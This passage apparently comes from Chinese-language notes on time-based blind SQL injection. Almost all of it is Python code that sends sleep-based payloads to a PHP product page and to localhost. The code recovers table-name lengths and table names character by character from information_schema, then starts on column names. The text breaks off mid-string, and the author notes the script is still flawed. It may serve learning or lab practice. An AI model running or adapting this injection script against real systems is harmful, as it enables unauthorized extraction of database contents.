 ```python
    num_1 = 1
    while True:
        url_table_name_length = f"http://192.168.7.29/product.php?id=13' and if(char_length((select table_name from " \
                                f"information_schema.tables " \
                                f"where table_schema=database() limit {count},1))<={num_1},sleep(5),1) -- qqqqq "

        start = time.time()
        message = requests.get(url_table_name_length)
        stop = time.time()
        if stop - start >= 5:
            # print(f"获取表名长度:{url_table_name_length}")
            break
        num_1 += 1

    for i in range(1, num_1 + 1):
        for num_2 in range(33, 126):
            url_table_name = f"http://192.168.7.29/product.php?id=13' and if(ascii(substr((select table_name from " \
                             f"information_schema.tables where table_schema=database() limit {count},1),{i}," \
                             f"1))={num_2},sleep(5),1) -- qqqqq "

            start = time.time()
            message = requests.get(url_table_name)
            stop = time.time()
            if stop - start >= 5:
                # print(f"获取表名:{url_table_name}")
                payload += chr(num_2)
    count += 1
    print(payload)
    table_name.append(payload)
print("——" * 10)
print(table_name)

```

##### 获取字段名

有问题，还很大

```python
import requests
import time

payload = ''
num_1 = 1
count = 0
while True:
    url_columns_names_count = f"http://localhost/?id=a' and if((select count(column_name) from information_schema.columns where " \
                      f"table_schema=database() and table_name=‘users’) >= {count},sleep(5),1) -- qqqqq"
    start = time.time()
    message = requests.get(url_columns_names_count)
    stop = time.time()
    if stop - start >= 5:
        break
    while True:
        url_columns_name_length = f"http://localhost/?id=a' and if(char_length((select column_name from " \
                              f"information_schema.columns where table_schema=database() and table_name=‘users’ limit " \
```